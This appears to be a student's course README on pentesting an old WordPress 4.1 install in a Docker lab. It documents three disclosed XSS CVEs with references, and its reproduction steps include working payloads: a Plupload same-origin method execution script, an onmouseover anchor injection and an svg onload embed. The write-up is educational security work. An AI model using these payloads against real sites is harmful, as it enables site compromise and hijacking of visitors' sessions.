 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
					}
			</script>	
			
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button within the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [ ] GIF Walkthrough: 
		<img src="AuthStoredXSS.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//'Hello World</a>	
			
	3. After this comment posts sucessfully, any user that comes to the page and mouses over the area will see an alert box demonstrating the xss attack. The alert box will keep popping up everytime the area is hovered over with the mouse cursor. 
  
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
	- [Link 2: cve.mitre - 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
	- [Link 3: cve.mitre - 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623)
	- [Link 4: wordpress](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
	- [Link 5: twitter](https://twitter.com/klikkioy/status/624264122570526720)
	- [Link 6: klikki](https://klikki.fi/adv/wordpress3.html)
### 3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.16
  - [ ] GIF Walkthrough: 
		<img src="URLembed.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	1. Post a link with an XSS attack. 
	2. 		
			http://localhost:8080/<svg onload=alert('XSS!')>
  - [ ] References:
	- [Link 1: wpscan](https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0)
	- [Link 2: cve.mitre - 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817)
    - [Link 3: wordpress](https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/)
    - [Link 4: github](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    - [Link 5: blog.sucuri.net](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)

GIFs created with [ScreenToGif](https://www.screentogif.com).

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
